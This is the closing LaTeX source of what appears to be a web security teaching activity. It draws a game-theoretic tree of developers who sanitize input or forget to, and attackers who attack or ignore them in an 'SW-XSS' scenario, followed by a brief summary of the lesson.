\begin{figure}[!ht]
    \centering
    %%%%%%%%%%%%%%%%%%%%%% Start Code
        \begin{center}
        \begin{istgame}[scale=1.7]
        \xtdistance{20mm}{20mm}
        %nature labels
        \istroot(0)[chance node]{$Nature$}
        
        % \istb<grow=left>{.47}[a]
        % \istb<grow=right>{.53}[a]
        \istb<grow=left>{.47}[b]{Experienced}[ar]
        \istb<grow=right>{.53}[b]{Inexperienced}[al]
        \endist
        \xtdistance{10mm}{20mm}
        \istroot(1)(0-1)<180>{\textcolor{blue}{1}}
        % left (experienced)
        \istb<grow=north>{\textcolor{blue}{Sanitizes}}[l]
        \istb<grow=south>{\textcolor{blue}{Forgets}}[l]
        \endist
        % right (inExperienced)
        \istroot(2)(0-2)<0>{\textcolor{blue}{1}}
        \istb<grow=north>{\textcolor{blue}{Sanitizes}}[r]
        \istb<grow=south>{\textcolor{blue}{Forgets}}[r]
        \endist
        % top left
        \istroot'[north](a1)(1-1)<315>{.47}
          \istb{\textcolor{red}{Attack}}[bl]{\textcolor{blue}{1},\textcolor{red}{-1}}
          \istb{\textcolor{red}{Ignore}}[br]{\textcolor{blue}{1},\textcolor{red}{0}}
        \endist
        % bottom left
        \istroot(b1)(1-2)<45>{p}
        \istb{\textcolor{red}{Attack}}[al]{\textcolor{blue}{-6},\textcolor{red}{3}}
        \istb{\textcolor{red}{Ignore}}[ar]{\textcolor{blue}{-3},\textcolor{red}{-1}}
        \endist
        % bottom right
        \istroot(a2)(2-2)<135>{p-1} % alternative for p believed values
        % \istroot(a2)(2-2)
        \istb{\textcolor{red}{Attack}}[al]{\textcolor{blue}{-4},\textcolor{red}{3}}
        \istb{\textcolor{red}{Ignore}}[ar]{\textcolor{blue}{-1},\textcolor{red}{-1.5}}
        \endist
        % top right 
        \istroot'[north](b2)(2-1)<225>{.53}
        \istb{\textcolor{red}{Attack}}[bl]{\textcolor{blue}{1},\textcolor{red}{-1}}
        \istb{\textcolor{red}{Different}}[br]{\textcolor{blue}{1},\textcolor{red}{0.1}}
        \endist
        
        % label dotted
        \xtInfoset(a1)(b2){\textcolor{red}{2}}
        \xtInfoset(b1)(a2){\textcolor{red}{2}}
        \end{istgame}
        \end{center}
    %%%%%%%%%%%%%%%%%%%%%% End Code
    \caption{SW-XSS Game Tree}
    \label{fig:sw-xss_game_tree}
\end{figure}


%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%% Summary
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\subsection*{Summary}\label{sec:Summary-WS}
\addcontentsline{toc}{subsection}{Summary}

In this activity, you learned about the cutting-edge SWXSS attack. You learned how the attack works, what causes this attack, and how to nullify it. This activity is a good, practical demonstration of how simple oversights can lead to devastating issues.

\bibliography{References}
\bibliographystyle{plain}

\end{document}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%